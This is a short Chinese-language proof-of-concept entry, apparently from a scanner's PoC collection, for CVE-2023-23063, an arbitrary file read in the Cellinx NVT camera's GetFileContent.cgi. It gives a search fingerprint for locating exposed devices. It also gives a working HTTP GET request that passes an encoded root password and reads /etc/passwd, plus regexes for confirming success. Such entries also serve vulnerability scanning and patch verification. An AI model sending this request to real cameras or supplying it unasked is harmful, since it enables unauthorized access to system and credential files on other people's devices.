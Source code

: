 ﻿# Cellinx NVT 摄像机 GetFileContent.cgi任意文件读取漏洞

> 更新时间：2023-12-25

> 漏洞编号：CVE-2023-23063

> 漏洞说明：Cellinx NVT v1.0.6.002b版本存在安全漏洞，该漏洞源于存在本地文件泄露漏洞，攻击者可读取系统密码等敏感信息。

> 漏洞特征：body="local/NVT-string.js"

> 验证脚本：HTTP

```
GET /cgi-bin/GetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/etc/passwd&_=1672577046605 HTTP/1.1
Accept-Encoding: gzip
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?root)(?=.*?bin).*?$

> 上传文件定位：

> 验证文件来源：Cellinx NVT 摄像机 GetFileContent.cgi任意文件读取漏洞.poc
